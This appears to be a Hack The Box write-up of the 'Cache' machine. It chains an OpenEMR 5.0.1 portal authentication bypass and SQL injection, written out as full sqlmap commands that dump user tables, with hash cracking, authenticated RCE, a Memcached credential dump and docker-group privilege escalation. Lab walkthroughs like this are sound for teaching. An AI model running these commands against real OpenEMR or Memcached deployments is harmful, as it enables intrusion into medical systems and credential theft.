

# Hack The Box: Cache machine write-up

We are back again with a new machine! Cache starts with a simple static website from which we get some hints that there is a virtual host. From there we find a vulnerable openEMR instance and can use an authentication flaw to exploit a SQLi. With that we access the database and crack some hashes to then gain RCE through another exploit that requires authentication. Once inside, enumeration leads to a Memcached server and we can extract the credentials from another user account, which is in the docker group so we can use a docker privilege escalation trick to get access to the filesystem.

Let's dig in! The IP of the machine is ``10.10.10.188``.

## Enumeration

I added `cache.htb` to my `/etc/hosts` file and started by enumerating open ports to discover the services running in the machine using nmap:

*Result of nmap scan*

```
# Nmap 7.70 scan initiated Wed Jun 10 10:28:54 2020 as: nmap -sV -sC -oA nmap/initial cache.htb
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.073s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 10 10:29:18 2020 -- 1 IP address (1 host up) scanned in 24.47 seconds
```

So not too much, just a web server.

### Port 80 enumeration: `cache.htb`

At first sight it seems just a static page, so I started looking around and when I saw the login tab I went straight to it.

*Main page*


*Login page*


I guessed a few common username / password combinations but none worked. Then inspected the page source and to my surprise there was an odd script called `functionality.js` which contained credentials: `ash:H@v3_fun`.

*Login page source*


*JS with hardcoded credentials*


Then I logged in and was directed to `login.html` but there was completely nothing! In fact, when trying to access `net.html` directly we could see that the page loaded but then we were redirected by javascript to `login.html` after doing some referrer check so the login mechanism could be entirely bypassed (not that it mattered as there was nothing).

*Net.html page*


At this point I checked the bruteforce results but found nothing... weird!

*Bruteforcing files and directories*


I was a bit lost but then checked the author page and found something that gave me an idea: maybe there were some virtual hosts, as the description talked about a project: HMS (Hospital Management System).

*Author description*


So I tried with the most obvious one, `hms.htb`, and was redirected!

*Discovering virtual hosts*


### Port 80 enumeration: `hms.htb`

*HMS host main page*


I couldn't login with the credentials I had so started a bruteforce attack and found several interesting directories, all of them having directory indexing enabled.

*Bruteforcing files and directories*


I started looking at several directories and found nothing too interesting. I also found another login panel, this one under `/portal/`.

*Patients portal*


Once again my credentials didn't work, so I tried registering a new user. However it wasn't properly working so I figured this wasn't the way to go.

*Registration not working*


At this point I simply googled `openEMR unauthenticated vulnerability` and bingo! One of the first results was a 28-page report made by Project Insecurity. On it, among others were a patient portal authentication bypass and several SQL injections.

*Report contents*


## OpenEMR exploitation

### Patient Portal Authentication Bypass

> An unauthenticated user is able to bypass the Patient Portal Login by simply navigating tothe registration page and modifying the requested url to access the desired page.

The root cause of this flaw is that the authentication mechanism is only checking if two variables, `pid` and `patient_portal_onsite_two` are set. And indeed they are set when starting the registration flow, which grants anyone access to authenticated functions and the code vulnerable to SQLi.

*Accessing unauthenticated pages*




I noted down the openEMR version in case it was needed in the future: `5.0.1`.

### SQL injection

The report mentions different pages where we can get the injection, I chose to use `/fin_appt_popup_user.php`.

*Vulnerable page*


After that I decided to automate my scan with `sqlmap`. One thing I needed to add was the cookie after visitng registration, otherwise the page would redirect to login. Here were the steps I took:s

- Get databases: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid --dbs`.

*Sqlmap working*


- Enumerate the `openemr` database: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr --tables`.

*Enumerated tables*


- Got the table `users`: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr -T users --columns`

- Got column names, so get data from them: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr -T users -C id,username,mname,password --dump`.

*Retrieved credentials*


However, the results weren't as expected... None of the credentials seemed valid and indeed they weren't working anywhere. I kept on searching and remembered seing a table named `users_secure`, so I took a look at it and found a hashed password belonging to `openemr_admin`.

The command I ran was: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr -T users_secure -C id,username,salt,password --dump`.

*Users_secure table data*


### Cracking the hash and gaining RCE

I googled a bit to try to find the encryption method used and found the following forum, <https://community.open-emr.org/t/security-updates-for-user-password-scheme/6256>, where they mention that it's Blowfish. I cracked the hash using John.

*Getting the password*


Now I had a valid account so I used searchsploit to find an authenticated RCE and quickly found one.

*Getting RCE*


## Privilege Escalation I: User pivoting

This was an easy part, I saw there were two users: `ash` and `luffy`. I already had `ash`'s credentials so I tried them and to my surprise it worked! First I upgraded my shell to an interactive TTY:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

*Getting user*


## Privilege Escalation II: Pivoting user through Memcached server

I started my usual enumeration with `LinEnum.sh`, as I only had a low-privileged shell as `www-data`. Couldn't see anything too interesting so I thought of checking services running internally with `ss -lntu`.

```console
ash@cache:~$ ss -lntu
ss -lntu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
udp    UNCONN   0        0           127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
tcp    LISTEN   0        128             127.0.0.1:11211          0.0.0.0:*     
tcp    LISTEN   0        128         127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   129      128                     *:80                   *:*     
tcp    LISTEN   0        128                  [::]:22                [::]:*
```

### How Memcached works

> Memcached is an in-memory key-value store for small chunks of arbitrary data (strings, objects) from results of database calls, API calls, or page rendering.

> The data in Memcached is organised in slabs, which are predetermined lists for objects of the same size. Given that all objects have a similar size memory fragmentation is reduced.

### Exploitation

I tried to connect to the server via telnet and execute commands following this [post](https://www.hackingarticles.in/penetration-testing-on-memcached-server/):

- `stats items`: returns all the data organised by slab ID (in our case we only have one).

```
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 14
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 44
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 340
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
```

- `stats cachedump 1 0`: this command is used to dump data from a slab ID (`1`). The second argument is used to indicate how many keys to dump: in our case it's `0`, which means dump everything.

```
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
```

- `get user`: used to fetch the value of the provided key.

```
VALUE user 0 5
luffy
```

- `get passwd`: same as above.

```
VALUE passwd 0 9
0n3_p1ec3
```

Cool! So we managed to dump the credentials for the other user in the machine: `luffy:0n3_p1ec3`.

## Privilege Escalation III: Root through docker misconfiguration

Once as `luffy` I ran `LinEnum.sh` again and found that this user was part of the docker group.

*LinEnum.sh output*


When installing docker, documentation always warns to only add to the group trusted users. This is because users in the docker group can, among other things, mount the host entire filesystem in the docker container without being prompted for the root password. This is exactly what I did to gain root.

*Root privilege escalation*


This is everything, I hope you enjoyed the writeup and learned something new! If you liked it you can give me respect on Hack The Box through the following link: <https://www.hackthebox.eu/home/users/profile/31531>. Until next time!

---

*Diego Bernal Adelantado*
